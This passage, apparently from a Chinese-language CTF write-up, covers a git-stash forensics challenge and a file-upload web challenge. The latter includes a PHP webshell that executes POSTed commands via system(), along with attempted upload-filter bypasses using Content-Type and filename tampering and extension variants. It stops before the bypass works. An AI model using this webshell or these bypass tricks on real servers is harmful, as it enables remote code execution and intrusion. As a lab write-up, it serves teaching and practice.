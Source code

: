 ### Yesec no drumsticks 5

压缩包内是一个 git，`git -log` 发现版本挺多，于是使用 `git reset --hard` 逐步回退版本，查看 `flag.txt` 内容，只找到一个假的 flag. 故此路不通。

重新解压压缩包，更换思路。

代码仓库、暂存区和工作区内已修改的文件均可直接被查看到。

Git 中有一个用于藏匿代码的指令 `stash`.

查看缓存区：

```bash
git stash list
```

得到

```plain
flag.txt
```

尝试撤销，恢复缓存区：

```bash
git stash pop
```

再次查看 `flag.txt` 得到 flag.

```plain
flag{Yesec#1s#c@ibi}
```

## WEB

### Give me your photo PLZ

我们按照网页的要求上传一张图片，发现图片被上传到网站的 `/upload` 目录中。

猜测是利用文件上传功能上传木马。我们随便传个 cpp 文件上去发现是上传成功的，但是随便上传一个 php 上去会返回 `上传木马可不是好习惯～～～`.

先构造一个木马文件，再想办法绕过：

```php
# webshell.php
<?php
highlight_file(__FILE__);
echo system($_POST['shell']);
```

利用 Burp 或 Fiddler 改包，修改 `Content-Type` 为 `image/jpeg` 后放行，但还是不成功。但是仅修改 `filename` 却可以，得知过滤机制为检测文件后缀名。

![Burp Try 1](https://image.cnily.top/blog/screenshot/give_me_your_photo_1.png?imageMogr2/format/webp)

![Burp Try 2](https://image.cnily.top/blog/screenshot/give_me_your_photo_2.png?imageMogr2/format/webp)

修改文件后缀为 `pht` `phtml` `pHp` 等都无法绕过，使用 Hex 再在 `.php` 后面插入 `%0A` 字符后也不管用。
